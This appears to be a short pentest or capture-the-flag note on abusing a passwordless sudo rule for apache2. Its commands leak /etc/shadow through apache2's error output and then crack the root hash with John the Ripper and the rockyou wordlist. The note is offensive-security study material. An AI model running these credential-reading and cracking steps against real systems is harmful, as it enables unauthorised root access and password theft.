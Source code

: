 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](<../../../.gitbook/assets/image (1).png>)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
